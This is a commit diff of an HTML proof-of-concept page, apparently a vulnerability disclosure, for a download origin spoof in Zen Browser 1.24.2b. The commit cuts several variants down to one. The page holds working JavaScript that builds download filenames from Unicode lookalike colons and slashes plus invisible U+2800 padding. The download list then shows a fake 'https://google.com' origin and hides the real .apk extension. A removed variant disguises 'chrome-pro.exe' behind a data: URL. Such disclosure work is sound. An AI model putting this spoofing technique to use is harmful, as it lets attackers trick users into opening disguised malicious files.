

Before and after one commit to killukeren/donwload-vuln, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (268-1011 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Simplify demo to a single PoC

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1">
-<title>Zen Browser — download filename origin spoof</title>
+<title>Zen Browser — download origin spoof</title>
 <style>
   :root { color-scheme: dark; }
   body {
@@ -11,115 +11,42 @@
     background: #0d0f12; color: #e6e8eb;
     font: 15px/1.6 system-ui, -apple-system, "Segoe UI", sans-serif;
   }
-  main { width: min(680px, 92vw); padding: 40px 0; }
-  h1 { font-size: 22px; margin: 0 0 6px; letter-spacing: -0.01em; }
-  p.lead { color: #9aa3ad; margin: 0 0 28px; }
+  main { width: min(560px, 92vw); padding: 40px 0; }
+  h1 { font-size: 20px; margin: 0 0 8px; }
+  p { color: #9aa3ad; margin: 0 0 20px; }
   button {
     padding: 12px 20px; font: inherit; font-weight: 600; cursor: pointer;
     color: #0d0f12; background: #e6e8eb; border: 0; border-radius: 8px;
   }
   button:hover { background: #fff; }
-  code, pre {
-    font-family: ui-monospace, "Cascadia Code", Consolas, monospace;
-    font-size: 13px;
-  }
   pre {
     background: #14181d; border: 1px solid #232a32; border-radius: 8px;
-    padding: 14px 16px; overflow-x: auto; margin: 18px 0;
+    padding: 14px 16px; overflow-x: auto; margin: 20px 0 0;
+    font: 13px ui-monospace, Consolas, monospace;
   }
-  .note { color: #9aa3ad; font-size: 13px; margin-top: 26px; }
-  .note b { color: #e6e8eb; }
-  ol { color: #c3c9d1; padding-left: 20px; }
-  li { margin: 4px 0; }
 </style>
 </head>
 <body>
 <main>
-  <h1>Download filename origin spoof</h1>
-  <p class="lead">Zen Browser 1.24.2b — the download list shows a fake origin and hides the real extension.</p>
+  <h1>Download origin spoof</h1>
+  <p>Zen Browser 1.24.2b — the download list shows a fake origin and hides the real extension.</p>
 
-  <button id="go">Variant A — fake "From" line</button>
-  <button id="go2">Variant B — hidden extension</button>
-  <button id="go3">Variant C — no real host in subtitle (data:)</button>
-  <button id="go4">Variant D — no real host in subtitle (blob:null)</button>
-  <button id="go5">Variant E — chrome-pro.exe + data:,https://chrome.google.com</button>
-
-  <iframe id="sb" sandbox="allow-scripts allow-downloads" style="display:none"
-    srcdoc="&lt;script&gt;
-      const NAME = 'ini aplikasi apa From https\u2236\u2215\u2215google.com.apk';
-      const u = URL.createObjectURL(new Blob(['x'], {type:'application/octet-stream'}));
-      const a = document.createElement('a');
-      a.href = u; a.download = NAME; a.click();
-    &lt;/script&gt;"></iframe>
+  <button id="go">Download</button>
 
   <pre id="name"></pre>
-
-  <ol>
-    <li>Click a button.</li>
-    <li>Open the Zen library / downloads list.</li>
-    <li>Variant A reads <code>ini aplikasi apa From https∶∕∕google.com.apk</code>.</li>
-    <li>Variant B reads <code>https∶∕∕google.com</code> — the <code>.apk</code> is elided.</li>
-    <li>Variant C downloads from a <code>data:</code> URL, so the subtitle shows
-        <code>(data)</code> instead of the real host.</li>
-  </ol>
-
-  <p class="note">
-    <b>Why it works:</b> Firefox sanitizes ASCII <code>:</code> and <code>/</code> in download
-    filenames, but not the Unicode lookalikes <code>∶</code> (U+2236) and <code>∕</code>
-    (U+2215). Zen renders the filename in an HTML span with
-    <code>text-overflow: ellipsis</code>, which hides the tail — where the real extension
-    lives. <code>U+2800</code> padding pushes the extension past the ellipsis without
-    showing visible filler.
-  </p>
-  <p class="note">
-    Firefox 160 is not affected by this variant: its download item uses
-    <code>crop="center"</code>, so the extension stays visible.
-  </p>
 </main>
 
 <script>
   // U+2236 RATIO, U+2215 DIVISION SLASH x2, U+2800 BRAILLE PATTERN BLANK x40
-  const ORIGIN = "https\u2236\u2215\u2215google.com";
+  const NAME = "https\u2236\u2215\u2215google.com" + "\u2800".repeat(40) + ".apk";
 
-  // A: whole string fits in the title (~45 chars), extension stays visible
-  const NAME_A = "ini aplikasi apa From " + ORIGIN + ".apk";
+  document.getElementById("name").textContent = NAME;
 
-  // B: invisible padding pushes the extension past the ellipsis
-  const NAME_B = ORIGIN + "\u2800".repeat(40) + ".apk";
-
-  document.getElementById("name").textContent = NAME_A;
-
-  function download(name) {
+  document.getElementById("go").onclick = () => {
     const blob = new Blob(["x"], { type: "application/octet-stream" });
     const a = document.createElement("a");
     a.href = URL.createObjectURL(blob);
-    a.download = name;
-    a.click();
-  }
-
-  document.getElementById("go").onclick = () => download(NAME_A);
-  document.getElementById("go2").onclick = () => download(NAME_B);
-
-  // C: data: URL source — the subtitle shows "(data)" instead of the real host
-  document.getElementById("go3").onclick = () => {
-    const a = document.createElement("a");
-    a.href = "data:text/html,<b>x</b>";
-    a.download = NAME_A;
-    a.click();
-  };
-
-  // D: blob from a sandboxed iframe (opaque origin) — source is blob:null/… → "(data)"
-  document.getElementById("go4").onclick = () => {
-    const f = document.getElementById("sb");
-    f.srcdoc = f.srcdoc;
-  };
-
-  // E: arbitrary filename + data: URL whose content is a trusted URL.
-  // Hovering the row shows "data:,https://chrome.google.com".
-  document.getElementById("go5").onclick = () => {
-    const a = document.createElement("a");
-    a.href = "data:,https://chrome.google.com";
-    a.download = "chrome-pro.exe";
+    a.download = NAME;
     a.click();
   };
 </script>
```
Also changed, not shown: 1 other file.
